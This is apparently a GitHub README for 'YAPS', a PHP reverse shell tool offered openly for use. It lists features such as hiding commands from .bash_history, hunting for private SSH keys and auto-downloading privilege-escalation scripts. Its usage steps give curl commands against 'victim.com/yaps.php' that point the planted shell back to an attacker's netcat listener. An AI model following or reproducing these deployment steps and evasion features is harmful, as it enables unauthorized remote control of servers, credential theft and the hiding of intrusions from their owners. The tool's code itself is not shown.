 # YAPS - **Y**et **A**nother **P**HP **S**hell

Yeah, I know, I know... But that's it. =)

As the name reveals, this is yet another PHP reverse shell, one more among hundreds available out there. It is a single PHP file containing all its functions and you can control it via a simple netcat listener (`nc -lp 1337`).

In the current version (1.0), its main functions support only linux systems, but i'm planning to make it work with Windows too.

It's currently in its first version and I haven't tested it much yet, and *there are still many things I intend to do and improve for the next versions (**it's not done yet!**)*, so please let me know if you've found any bugs. =)

## Features
* Single PHP file (no need to install packages, libs, or download tons of files)
* Works with netcat, ncat, socat, multi/handler, almost any listener
* Customizable password protection
* No logs in .bash_history
* Can do some enumeration
  * Network info (interfaces, iptables rules, active ports)
  * User info
  * List SUID and GUID files
  *  Search for SSH keys (public and private)
  *  List crontab
  *  List writable PHP files
* Auto download LinPEAS, LinEnum or Linux Exploit Suggester
* Write and run PHP code on remote host
* (Semi) Stabilize shell

## Cons
* Connection isn't encrypted (yet) (nc does not support SSL)
* Not fully interactive (although you can spawn an interactive shell with `!stabilize`)
  * CTRL+C breaks it; can't use arrows to navigate (unless you use `rlwrap nc -lp <ip> <port>`)

## Usage
1. Set up a TCP listener;
2. Set your IP and port. This can be done by:
* 2.1 Editing the variables at the start of the script;
* 2.2 Setting them via web request (`curl -x POST -d "x=ip&y=port" victim.com/yaps.php` or `curl victim.com/yaps.php?x=ip&y=port`);
3. Open yaps.php on browser or curl it;
* 3.1 You can set `yaps.php?s` or `yaps.php?silent` to supress the banner
5. Hack!

## Working commands
* `!help - Display the help menu`
* `!all-colors - Toggle all colors (compatible with colorless TTY)`
* `!color - Toggle PS1 color (locally only, no environment variable is changed)`
* `!enum - Download LinPEAS and LinEnum to /tmp and get them ready to use`
* `!info - list informations about the target (the enumeration I mentioned above)`
* `!stabilize - Spawn an interactive reverse shell on another port (works w/ sudo, su, mysql, etc.)`
* `!passwd - Password option (enable, disable, set, modify)`
* `!php - Write and run PHP on the remote host`
* `!suggester - Download Linux Exploit Suggester to /tmp and get it ready to use`

## Screenshots

![image](https://user-images.githubusercontent.com/3837916/124825185-acd24480-df49-11eb-976f-f9db9328eabe.png)

![image](https://user-images.githubusercontent.com/3837916/124777687-c4dca080-df16-11eb-94b7-ef77127c5f20.png)

![image](https://user-images.githubusercontent.com/3837916/124775570-1b48df80-df15-11eb-8a3d-90090e8b8016.png)

![image](https://user-images.githubusercontent.com/3837916/124774830-7dedab80-df14-11eb-9e84-c8d88b9f4de2.png)

![image](https://user-images.githubusercontent.com/3837916/124776296-b641b980-df15-11eb-9a3c-396fe1544825.png)

## Changelog

**v1.1 - 12/07/2021**
- Added `!all-colors` to toggle terminal colors and work with colorless TTYs
- Added `exit` command to close socket (leave shell)
- Changed payload in `!stabilize` to set HISTSIZE=0
- Changed the method of obtaining CPU and meminfo in `!info` 

**v1.0.1 - 08/07/2021**
- Changed `[x,y,z]` to `array(x,y,z)` to improve compatibility with older PHP versions
- Changed payload for interactive shell to work with PHP<5.4

## Credits
Some ideas were inspired by this tools:

#### Linpeas
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

#### Linenum
https://github.com/rebootuser/LinEnum

#### Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

#### Pentest Monkey
https://github.com/pentestmonkey/php-reverse-shell
